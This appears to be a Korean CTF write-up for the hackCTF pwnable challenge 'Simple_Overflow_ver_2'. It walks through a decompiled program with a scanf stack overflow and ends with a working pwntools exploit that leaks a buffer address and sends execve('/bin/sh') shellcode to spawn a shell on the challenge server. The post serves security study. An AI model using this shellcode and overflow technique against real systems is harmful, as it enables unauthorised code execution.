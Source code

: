 ```yaml
---
layout: post
title:  "[hackCTF]Simple_Overflow_ver_2"
date:   2020-02-18
---
```


hackCTF pwnable 7번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) ) // \n을 받을 때까지 공백을 입력 받아 s에 저장
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break; // s의 길이만큼 for문 반복
        if ( !(i & 0xF) ) // 0x0, 0x10이면
          printf("%p: ", &s[i]); // s[i]의 주소 출력
        printf(" %c", (unsigned __int8)s[i]); // s[i]의 값 출력
        if ( i % 16 == 15 ) // 16의 배수번째 글자면
          putchar(10); // new line
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 121 || v5 == 89) );
  // 문자열을 입력 받는데 그 값이 "Y" 또는 "y"이면 do-while문을 다시 반복한다
  return 0;
}
```
복잡해보이지만 실은 간단하다.  
문자열을 입력받고 그 문자열 16글자 단위로 나눠서 출력한다.  
이 때 1st, 17th 문자, 33th... 문자는 주소를 출력한다.
<br>

정리해보자.<br><br>

***

| ret |           |
|:---:|:---------:|
| sfp |    ebp    |
| ... |           |
|  i  |  ebp-0x8  |
|  s  |           |
| ... | (128byte) |
|  s  |  ebp-0x88 |
|  v5 |  ebp-0x89 |

***
<br>

![0701](https://drive.google.com/uc?id=1VZWXdm7SKHOD-4lvLfeVyF5fLRko5Z4Z)  
실제로 실행해보면 좀 더 명확히 알 수 있다.<br><br>
지난 6번 문제와 동일한 조건이므로 s의 주소를 알아낸 뒤 쉘코드를 포함한 payload를 완성하면 될 것 같다. 주의해야 할 점은 서버와 나 사이에 데이터 핑퐁이 잘 되어야 한다는 점이다. 이를 위해서 recvuntil함수를 자주 사용하기로 했다.<br><br>
목표 : s의 주소를 서버로 부터 받아 ret을 덮는 payload 완성하기<br>
취약점 : scanf(" %[^\n]s", s)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

# 1st

p.recvuntil("Data : ")

p.sendline("asdf")

buf = int(p.recv(10), 16)

p.recvuntil("Again (y/n): ")

p.sendline("y")

# 2nd

p.recvuntil("Data : ")

payload = "\x90"*0x7

payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload += "\x90"*(0x88-0x20+0x4)

payload += p32(buf)

p.sendline(payload)

p.recvuntil("Again (y/n): ")

p.sendline("n")

p.interactive()

```
## 결과
![0702](https://drive.google.com/uc?id=13ENd7UhZJ3NSxpOyoGthlYVWHkv1xJ1t)
